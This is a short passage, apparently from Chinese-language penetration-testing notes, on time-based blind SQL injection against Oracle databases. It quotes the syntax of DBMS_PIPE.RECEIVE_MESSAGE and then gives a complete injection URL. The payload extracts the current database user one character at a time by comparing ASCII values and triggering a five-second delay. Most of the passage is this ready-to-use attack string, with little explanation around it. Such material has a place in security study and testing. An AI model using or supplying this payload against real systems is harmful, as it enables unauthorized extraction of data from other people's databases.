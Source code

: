 <img src="assets/dc9e62f3cf913ba6f89ac0b3d73e8a80.png" alt="dc9e62f3cf913ba6f89ac0b3d73e8a80" style="zoom:50%;" />

```
来自官网的DBMS_PIPE.RECEIVE_MESSAGE语法：
```

```
DBMS_PIPE.RECEIVE_MESSAGE (
   pipename     IN VARCHAR2,
   timeout      IN INTEGER      DEFAULT maxwait)
RETURN INTEGER;
```



具体payload构造：



**猜解当前用户**

```
http://hackrock.com:8080/oracle/?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(user as varchar(4000)),chr(32)) from dual),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+
```
